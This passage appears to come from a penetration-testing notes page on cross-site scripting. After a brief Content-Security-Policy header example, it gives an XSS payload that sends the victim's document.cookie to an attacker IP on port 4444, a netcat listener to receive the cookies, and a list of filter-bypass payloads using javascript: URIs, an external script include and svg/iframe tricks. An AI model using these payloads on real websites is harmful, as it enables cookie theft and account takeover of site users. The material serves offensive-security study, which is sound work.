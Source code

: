 

Additional Security Measures

1.  **Content Security Policy (CSP)**

    ```php
    header("Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';");
     
    ```



## How To PenTest?

in website&#x20;

<pre class="language-javascript"><code class="lang-javascript"><strong>&#x3C;script>new Image().src="http://192.168.1.9:4444/bogus.php?output="+escape(document.cookie);&#x3C;/script>
</strong></code></pre>

## in your Attcker Machine

```bash
nc -nvlp 4444
```

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

## How to Bypass Protection

* Without event handlers

```
<object data=javascript:confirm()>
<a href=javascript:confirm()>click here
<script src=//14.rs></script>
<script>confirm()</script>
```

* Without space

```
<svg/onload=confirm()>
<iframe/src=javascript:alert(1)>
```
